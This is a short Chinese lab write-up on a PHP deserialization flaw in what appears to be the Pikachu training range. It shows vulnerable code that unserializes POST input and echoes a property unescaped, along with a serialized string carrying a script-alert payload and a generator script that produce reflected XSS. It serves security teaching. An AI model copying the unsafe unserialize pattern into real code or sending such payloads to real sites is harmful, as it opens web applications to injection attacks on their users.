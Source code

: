 通常反序列化漏洞的发现及利用是代码审计实现的

审计unser.php, 前端将`$_POST['o']`变量传递给后台, 后台将此变量反序列化成对象, 然后输出该对象的test属性

由此, 可通过构造序列化的字符串传递给`$_POST['o']`来实现漏洞利用

```php
class S{
    var $test = "pikachu";
    function __construct(){
        echo $this->test;
    }
}

//O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
$html='';
if(isset($_POST['o'])){
    $s = $_POST['o'];
    if(!@$unser = unserialize($s)){
        $html.="<p>大兄弟,来点劲爆点儿的!</p>";
    }else{
        $html.="<p>{$unser->test}</p>";
    }
}
?>
```

<br>

## 利用实例

自行新建一个php文件来生成用于漏洞利用的字符串: `O:1:"S":1:{s:4:"test";s:33:"<script>alert('Hacking')</script>";}`

```php
<?php
class S{
    var $test = "<script>alert('Hacking')</script>";
}

$example = new S();
$SerialString = serialize($example); 
echo $SerialString; #输出: O:1:"S":1:{s:4:"test";s:33:"<script>alert('Hacking')</script>";}

?>
```

<br>

将此字符串通过POST请求传递给后台, 随后触发XSS反射型漏洞
